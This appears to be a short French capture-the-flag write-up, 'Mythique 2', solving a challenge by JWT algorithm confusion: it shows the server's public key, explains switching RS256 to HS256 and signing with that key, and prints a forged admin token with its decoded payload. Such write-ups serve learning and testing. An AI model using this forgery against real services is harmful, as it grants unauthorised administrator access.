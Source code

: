 ## Mythique 2

première étape récupérer la clé publique

```KEY
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqLkYHUSPJYmg4LcJIFKD
5An8sSdOXNUftIyEsHFbmQGK/nQvHjdUE0UlJlUeg0rpfllqZqaqe+ScImvdNsu5
X+KlOKgSg4xLeqiToDEIoU1vAU2D11gMWn+1e8Ht9l+T47c09rbZKuTYXGsy02tw
hJkdQ7KeuwMmMuXCVsE5dZUF6pgjRW9M5PVpEW9nWqTOqCsrK7EVxursCUAd+hvN
tTh4y+la9eDG7djDs1QQBwmnNzFeK6I6YSVMeLcsttxGi5lMQyc/iGkNSVtblxoq
jOFlxkOl1C9gpyuD7ECCLrcBvipdjDi6n5s8/3NTLxM2o9KCMWcQ4vMr+UNWQq6k
YQIDAQAB
-----END PUBLIC KEY-----

```

Récupérer le JWT et on va utiliser le vecteur d'attaque de changement de signature. Nous allons passer de RS256 à H256 et utiliser la clé publique pour générer notre propre signature.
On modifie le token pour mettre **isAdmin** à true

```JWT
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NzEyNzg2NDMsImRhdGEiOnsibmFtZSI6IlpvYiDDgCBQb2lsIiwiaXNBZG1pbiI6dHJ1ZX0sImlhdCI6MTY3MTI3NTA0M30.CkWsbhdomgdUdy-xFiH0DFn16yBeZ8c656_OcvJMabU
```

On récupère ce token avec les informations suivantes
```JSON
{
  "exp": 1671278643,
  "data": {
    "name": "Zob À Poil",
    "isAdmin": true
  },
  "iat": 1671275043
}
```
